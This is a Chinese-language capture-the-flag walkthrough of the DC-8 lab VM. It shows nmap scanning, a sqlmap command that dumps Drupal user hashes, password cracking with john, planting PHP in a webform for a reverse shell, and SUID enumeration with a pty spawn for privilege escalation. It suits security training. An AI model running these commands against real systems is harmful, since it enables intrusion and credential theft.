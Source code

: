# DC8 
## 简述  
使用sql注入得到其中的用户名密码，解密密码，写shell,提权  

## 服务发现和漏洞利用  
```
nmap 192.168.1.*  
nmap -A  -p 1-65535 192.168.1.56 
```
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200201172054.png)  
开启了80和22端口  
打开网页服务发现其中存在sql漏洞  
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200201172208.png)
```
使用sqlmap进行！ --dump选项能有很大作用要记得使用
sqlmap --url "http://192.168.1.56/?nid=1" -p nid -D d7db -T users -C name,pass --dump
```
![20191130200226.png](https://i.loli.net/2019/11/30/iADKhSNgC2wZoeB.png)  
现在得到了数据的用户名和密码，我们可以使用john对数据进行破解   
这里存在一个坑一直存在no passwords，可以使用hash 密码 --show 进行显示
![20191130205526.png](https://i.loli.net/2019/11/30/RjSXbdVaIxl3FeJ.png)  
然后使用john用户登录  ，drupal反射shell    
### 如何在drupal当中反射shell  

![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200201190604.png)  
发现其中的登录页面，登录上去  
探测到版本是durpal 7.x 系列的那样的话就简单多了
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200201191309.png)
```
drupal 7 上传的步骤  
configuration-》Webform-》Form settings -》 其中插入php代码
```
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200201192740.png)

## 提权 
发表评论之后会返回shell权限  
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200201193240.png)  
![20191130210638.png](https://i.loli.net/2019/11/30/GxkZHijCSaguBJp.png)  
```
python -c 'import pty;pty.spawn("/bin/bash")'

 find / -perm -u=s -type f 2>/dev/null  
```
直接在exploitdb当中搜索使用就行了

![20191130210954.png](https://i.loli.net/2019/11/30/w5BHKVoZapGXyCv.png)
放到linux服务器当中让服务器进行下载该文件   
```
本地开启了apache服务
```
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200201195552.png)
注意点 当一种提权脚本不能进行使用的时候可以使用另外一种的提权的选项到提权  
## 总结  
简单的sql注入获得网站的用户和密码，写一个shell到页面当中收到一个简单的shell  
使用其中的一款存在权限提升的软件进行提权 最终获得成功  
### 操作  
drupal上传shell  
获取交互式shell  python -c 'import pty;pty.spawn("/bin/bash")'
寻找特权指令  find / -perm -u=s -type f 2>/dev/null  




